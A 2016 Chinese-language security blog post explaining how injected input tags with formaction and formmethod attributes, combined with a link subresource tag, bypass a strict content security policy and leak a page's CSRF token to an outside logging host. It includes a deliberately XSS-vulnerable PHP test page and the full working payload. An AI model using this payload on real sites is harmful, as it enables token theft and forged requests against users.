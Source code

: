 title: input属性bypass csp
date: 2016-04-08 20:45:44
tags:
- Blogs
- csp
- csrf
categories:
- Blogs
---

前两天看到一篇文章，可以通过input标签的某些属性，来控制form获取crsftoken并且完美bypass csp。

<!--more-->

文章的原文是在
[https://labs.detectify.com/2016/04/04/csp-bypassing-form-action-with-reflected-xss/](https://labs.detectify.com/2016/04/04/csp-bypassing-form-action-with-reflected-xss/)

首先测试环境设置`default-src: 'none'`禁止所有的js脚本，所以执行js是没办法了，但是却可以通过巧妙地方式csrf，这里使用的就是link标签，这里就不多说了，之前写过一篇文章专门讲link标签...

首先我们的测试环境是这样的:
```
<html>

<body>

<div>[Reflected XSS vulnerability here]</div>

<form method=”POST” id=”subscribe” action=”/submit.php”>

<input type=”hidden” name=”csrftoken” value=”5f4dcc3b5aa765d61d8327deb882cf99” />

<input type=”submit” value=”Subscribe to newsletter” />

</form>

</body>

</html> 
```
我们可以看到很清楚的hidden标签，里面会在表单提交的同时提交csrftoken来验证来源，这样可以在开启csp的时候，很有效的防御csrf的发生，这里我们的插入点在form的前面。

```
<html>
<body>
<div><?=@$_GET['xss']?></div>
<form method="POST" id="subscribe" action="/api/v1/newsletter/subscribe">
<input type="hidden" name="csrftoken" value="5f4dcc3b5aa765d61d8327deb882cf99" />
<input type="submit" value="Subscribe to newsletter" />
</form>
</body>
</html>
```
我们可以插入input标签
```
<div><input value="CLICK ME FOR POC" type="submit" formaction="" form="subscribe" formmethod="get" /> <input type="hidden" name="xss" form="subscribe" value="<link rel='subresource' href='http://xss.xxx.cc'>"/></div>

```
我们上面是构造的输入，有些属性我们不是很熟悉，那么就先看看吧。
[http://www.w3school.com.cn/tags/tag_input.asp](http://www.w3school.com.cn/tags/tag_input.asp)


|属性	|值	 |描述|
|-------|----|----|
|formaction	| URL	| 覆盖表单的 action 属性。（适用于 type="submit" 和 type="image"）|
|formenctype	|见注释	| 覆盖表单的 enctype 属性。（适用于 type="submit" 和 type="image"）|
formmethod	| get&post | 覆盖表单的 method 属性。（适用于 type="submit" 和 type="image"）|
formnovalidate	formnovalidate	| 覆盖表单的 novalidate 属性。 | 如果使用该属性，则提交表单时不进行验证。|
formtarget	| _blank  _self  _parent  _top  framename  | 覆盖表单的 target 属性。（适用于 type="submit" 和 type="image"）|


我们这下就比较好理解上面的payload了，上面构造的input覆盖了下面这个表单的各个属性。

通过这种方式我们可以把csrftoken通过get请求的方式放在请求里面，然后构造了link标签去请求自己的xss平台，这样在xss平台上，我们可以看到请求的来源，referer里可以看到get中的csrftokeno(*￣▽￣*)ブ

忘了说，这里只有chrome能够实现，firefox无法实现